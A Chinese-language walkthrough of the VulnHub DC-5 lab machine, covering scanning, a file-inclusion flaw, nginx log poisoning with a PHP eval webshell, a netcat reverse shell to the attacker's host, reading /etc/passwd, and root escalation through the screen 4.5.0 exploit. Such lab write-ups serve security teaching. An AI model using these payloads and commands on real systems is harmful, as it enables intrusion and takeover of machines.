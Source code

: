[DC-5文档](https://www.vulnhub.com/entry/dc-5,314/)

### 信息收集

```
靶机MAC地址：00:0C:29:CB:E4:31
```

**主机扫描**

```shell
netdiscover -r 192.168.80.0/24
```

![image-20230806191613234](https://gitee.com/zh_sng/cartographic-bed/raw/master/img/image-20230806191613234.png)

**端口扫描**

```shell
nmap -sV -p- 192.168.80.139
```

![image-20230806191703134](https://gitee.com/zh_sng/cartographic-bed/raw/master/img/image-20230806191703134.png)

### 漏洞发现

浏览器访问80端口

![image-20230806191746245](https://gitee.com/zh_sng/cartographic-bed/raw/master/img/image-20230806191746245.png)

找找有没有能够利用的地方，在`Contact`里发现了类似提交的 东西

![image-20230806191836140](https://gitee.com/zh_sng/cartographic-bed/raw/master/img/image-20230806191836140.png)

发现点击`Submit`提交后，页面会发生变化

![image-20230806191957268](https://gitee.com/zh_sng/cartographic-bed/raw/master/img/image-20230806191957268.png)

![image-20230806192005224](https://gitee.com/zh_sng/cartographic-bed/raw/master/img/image-20230806192005224.png)

用bp抓包看看

![image-20230806192123109](./../../../%E6%A1%8C%E9%9D%A2/image-20230806192123109.png)

将抓取到的数据包发送到`Repeater`，点击`Send`查看返回的数据

![image-20230806192231489](https://gitee.com/zh_sng/cartographic-bed/raw/master/img/image-20230806192231489.png)

![image-20230806192247169](https://gitee.com/zh_sng/cartographic-bed/raw/master/img/image-20230806192247169.png)

不断点击，发现footer不断变化，说明这里可能存在一个独立的脚本文件

爆破一下目录看看

```shell
dirsearch -u 192.168.80.139 -i 200
```

![image-20230806192427575](https://gitee.com/zh_sng/cartographic-bed/raw/master/img/image-20230806192427575.png)

浏览器访问这个`http://192.168.80.139/footer.php` 目录

每点击一次页面上的数字就会变

![image-20230806192545346](https://gitee.com/zh_sng/cartographic-bed/raw/master/img/image-20230806192545346.png)

改成文件包含的形式`?file=`发现同样可以

![image-20230806192924313](https://gitee.com/zh_sng/cartographic-bed/raw/master/img/image-20230806192924313.png)

确定这里存在文件包含漏洞

### 漏洞利用

改变访问路径为`/thankyou.php?file=/etc/passwd` ，可以看到`passwd`文件内容了

![image-20230806193235167](https://gitee.com/zh_sng/cartographic-bed/raw/master/img/image-20230806193235167.png)

说明了程序代码在处理包含文件的时候没有严格控制。我们可以把访问路径更改为木马文件

```php
 /thankyou<?php @eval($_REQUEST[123]);?>
```

![image-20230806193854240](https://gitee.com/zh_sng/cartographic-bed/raw/master/img/image-20230806193854240.png)

发现报 `404未找到`的错误

对于配置了`nginx`的网站，无论网站有什么操作，都会被记录在`/var/log/nginx/access.log`和`/var/log/nginx/error.log`里面

```shell
/thankyou.php?file=/var/log/nginx/access.log
```



![image-20230806195156826](https://gitee.com/zh_sng/cartographic-bed/raw/master/img/image-20230806195156826.png)



木马已经上传，利用中国蚁剑来连接访问

```php
http://192.168.80.139/thankyou.php?file=/var/log/nginx/access.log
```

![image-20230806195305274](https://gitee.com/zh_sng/cartographic-bed/raw/master/img/image-20230806195305274.png)

接下来进行`反弹shell`

kali开启监听

```
nc -lvvp 8989 
```



![image-20230806195427316](https://gitee.com/zh_sng/cartographic-bed/raw/master/img/image-20230806195427316.png)

利用中国蚁剑打开虚拟终端，反弹shell到攻击机kali上

```shell
nc -e /bin/bash 192.168.80.141 8989
```

![image-20230806195624840](https://gitee.com/zh_sng/cartographic-bed/raw/master/img/image-20230806195624840.png)

![image-20230806195814105](https://gitee.com/zh_sng/cartographic-bed/raw/master/img/image-20230806195814105.png)

再看kali这边 ，就已经监听到了

![image-20230806195829012](https://gitee.com/zh_sng/cartographic-bed/raw/master/img/image-20230806195829012.png)



使用python脚本开启交互模式

```python
python -c 'import pty;pty.spawn("/bin/bash")'
```

![image-20230806200020629](https://gitee.com/zh_sng/cartographic-bed/raw/master/img/image-20230806200020629.png)

查看当前权限，发现只是普通的权限

![image-20230806200057712](https://gitee.com/zh_sng/cartographic-bed/raw/master/img/image-20230806200057712.png)

**下一步就该提权了**

### 权限提升

```shell
find / -user root -perm /4000 2>/dev/null
```

![image-20230806200209010](https://gitee.com/zh_sng/cartographic-bed/raw/master/img/image-20230806200209010.png)

发现`screen-4.5.0`比较可疑，尝试用`searchsploit`搜索是否存在漏洞

再打开一个终端，进行漏洞查找

```shell
searchsploit screen 4.5.0
```

![image-20230806200344787](https://gitee.com/zh_sng/cartographic-bed/raw/master/img/image-20230806200344787.png)

找出`41154.sh`的绝对路径

```shell
searchsploit -p linux/local/41154.sh
```



![image-20230806200639052](https://gitee.com/zh_sng/cartographic-bed/raw/master/img/image-20230806200639052.png)

查看文件内容

```shell
cat /usr/share/exploitdb/exploits/linux/local/41154.sh 
```

![image-20230806202051823](https://gitee.com/zh_sng/cartographic-bed/raw/master/img/image-20230806202051823.png)

按照文件的说明，可分为三部分，将第一个框里内容保存为第一文件，名为`libhax.c`，然后使用黄色选取的命令编译，编译结束会生成`libhax.so`文件。

第二个框里内容保存为`rootshell.c`文件，使用黄色选区的命令编译，编译结束后生成`rootshell`文件。

将第三个框里内容保存为第三个文件，保存为run.sh  。 这个名字随意。

第一个文件

<img src="https://gitee.com/zh_sng/cartographic-bed/raw/master/img/image-20230806201821999.png" alt="image-20230806201821999" style="zoom:33%;" />

第二个文件

<img src="https://gitee.com/zh_sng/cartographic-bed/raw/master/img/image-20230806202404740.png" alt="image-20230806202404740" style="zoom:33%;" />

第三个文件

<img src="https://gitee.com/zh_sng/cartographic-bed/raw/master/img/image-20230806202521089.png" alt="image-20230806202521089" style="zoom:33%;" />

把`libhax.c和rootshell.c`拖进 蚁剑

![image-20230806202906263](https://gitee.com/zh_sng/cartographic-bed/raw/master/img/image-20230806202906263.png)

对`libhax.c和rootshell.c`这两个文件进行编译

![image-20230806203137321](https://gitee.com/zh_sng/cartographic-bed/raw/master/img/image-20230806203137321.png)

进到蚁剑的文件管理里面，刷新一下，就能看到编译好的两个文件了

![image-20230806203244901](https://gitee.com/zh_sng/cartographic-bed/raw/master/img/image-20230806203244901.png)

然后把`run.sh`也拖进蚁剑里来， ==注意是`/tmp`下==

![image-20230806203421888](https://gitee.com/zh_sng/cartographic-bed/raw/master/img/image-20230806203421888.png)

这个时候可以把`libhax.c和rootshell.c`这两个文件删除 ，因为已经编译好了，留他们也没有用了

<img src="https://gitee.com/zh_sng/cartographic-bed/raw/master/img/image-20230806203726204.png" alt="image-20230806203726204" style="zoom:33%;" />

<img src="https://gitee.com/zh_sng/cartographic-bed/raw/master/img/image-20230806203742381.png" alt="image-20230806203742381" style="zoom:33%;" />

进到kali的python交互shell里，切换到`/tmp`目录下

![image-20230806203854543](https://gitee.com/zh_sng/cartographic-bed/raw/master/img/image-20230806203854543.png)

运行`run.sh`  输入`bash ./run.sh` 提权

![image-20230806204153258](https://gitee.com/zh_sng/cartographic-bed/raw/master/img/image-20230806204153258.png)

可以进行`whoami`查看我是谁

![image-20230806204221570](https://gitee.com/zh_sng/cartographic-bed/raw/master/img/image-20230806204221570.png)

进到`/root`查看有无fl

![image-20230806204344552](https://gitee.com/zh_sng/cartographic-bed/raw/master/img/image-20230806204344552.png)

### 总结

```shell
信息收集
	主机发现  netdiscouver
	端口扫描  nmap
	目录爆破  dirsearch
漏洞利用
	bp抓包分析footer.php,有文件包含漏洞
	木马上传，查看日志
	反弹shell
	python交互shell
提权
	find / -user root -perm /4000 2>/dev/null
	searchsploit screen 4.5.0
	libhax.c和rootshell.c文件的编译  run.sh
	bash ./run.sh  提权
```



